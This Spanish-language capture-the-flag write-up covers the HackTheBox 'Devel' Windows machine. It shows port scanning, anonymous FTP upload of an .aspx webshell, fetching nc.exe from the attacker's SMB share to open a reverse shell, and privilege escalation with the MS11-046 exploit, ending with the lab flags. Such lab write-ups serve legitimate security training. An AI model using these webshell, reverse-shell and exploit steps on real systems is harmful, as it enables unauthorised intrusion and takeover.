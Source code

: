 ```yaml
---
title: HackTheBox - Devel
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, IIS, MS11-046, Misconfiguration]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Devel/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Devel Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **IIS, MS11-046, Misconfiguration**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Devel`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Devel/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Devel/02-versions.png)

    + [x] Se encuentra habilitado la opción de **`Login como un usuario anónimo` en `FTP`**, con lo cual podemos acceder a este servicio sin necesidad de **`credenciales`**
    + [x] En el puerto **`80`** se ejecuta un **`IIS`** (Internet Information Services).

c. Accedemos al servicio **`FTP`** como **`anonymous`** y listamos el contenido

```bash
ftp <IP>
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49248|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

* Entramos a la página web y analizamos el código fuente. Veremos que la imagen que se presenta tiene por nombre **`welcome.png`**, que es el mismo fichero que está en el servicio **`FTP`**.

* Subiremos un archivo de prueba para ver si podemos acceder a este desde en servicio web.

    ```s
    ftp> put test.txt test.txt
    226 Transfer complete.
    ```

* Ahora vamos al servicio web y accedemos a este recurso

![](/assets/images/HTB/Easy/Devel/03-test.png)

d. Como notamos, el archivo que subimos al servicio **`FTP`** se refleja en el servicio web, por tanto, subiremos una **`webshell` .aspx** > [webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

* Con esto ya podemos ejecutar comandos en la **`Máquina Víctima`**

    ![](/assets/images/HTB/Easy/Devel/04-webshell.png)

* **Obtener una reverse shell** 🔀

    1. Nos descargamos [nc](https://eternallybored.org/misc/netcat/) en nuestra **`Máquina Atacante`**
    2. Compartimos un recurso por **`SMB`**: **`impacket-smbserver Share ./ -smb2support`**
    3. En la **webshell** ejecutamos el comando **`copy \\<tun0 IP>\Share\nc.exe C:\Windows\Temp`**

    4. Nos ponemos en escucha en nuestra **`Máquina Atacante`**: **`nc -lvnp 443`**
    5. Ejecutamos netcat en la **`Máquina Víctima a través de la Webshell`**:

        ![](/assets/images/HTB/Easy/Devel/05-reverse.png)

    * **Máquina Atacante**

        ```bash
        connect to [10.10.14.115] from (UNKNOWN) [10.10.10.5] 49245
        Microsoft Windows [Version 6.1.7600]
        Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
        c:\windows\system32\inetsrv>
        ```

### Escalada de Privilegios 💹

a. Enumeramos la información del sistema con **`systeminfo`**

```cmd
OS Name:            Microsoft Windows 7 Enterprise
OS Version:         6.1.7600 N/A Build 7600
OS Manufacturer:    Microsoft Corporation
```

 * Vemos que es una versión antigua de **`Windows`**

b. Al buscar por un exploit para esta versión de Windows vemos [ms11-046](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

c. Para transferir este exploit a la **`Máquina Víctima`** seguiremos los mismos pasos de **Obtener una revershell 🔀**

d. Ejecutamos el script y ya tendremos acceso como **`Adminstrador`**

```bash
C:\Windows\Temp>ms11-046.exe
c:\Windows\System32>whoami
nt authority\system
```

e. Por último vemos las **`flags` de usuario y root**

```cmd
c:\Users\babis\Desktop>type user.txt
48d0837eebb3f87ba7cf0be20ee53012

C:\Users\Administrator\Desktop>type root.txt
3ee446d2151a7627cd28cf5e5f4075ce
```